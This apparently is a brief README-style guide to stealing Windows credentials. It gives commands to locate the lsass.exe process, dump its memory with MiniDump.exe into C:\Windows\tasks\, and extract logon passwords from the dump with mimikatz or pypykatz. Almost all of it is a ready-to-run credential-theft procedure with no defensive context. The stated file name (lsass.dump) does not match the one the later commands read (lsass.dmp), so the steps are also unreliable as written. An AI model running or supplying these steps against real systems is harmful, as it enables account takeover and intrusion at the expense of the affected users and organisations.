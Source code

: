 # Extracting user passwords from lsass.exe dumps

Get the PID of the lsass process with `tasklist`

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

Run MiniDump.exe with the PID of lsass.exe as the first argument.

```
MiniDump.exe <PID>
```
The dump file will be saved as lsass.dump in `C:\Windows\tasks\`.
Then read the dump file with mimikatz and pypykatz and dump the passwords.

From Windows

```
mimikatz.exe "sekurlsa::minidump C:\Windows\tasks\lsass.dmp" "sekurlsa::logonpasswords"
```

From Linux

```
pypykatz lsa minidump lsass.dmp
```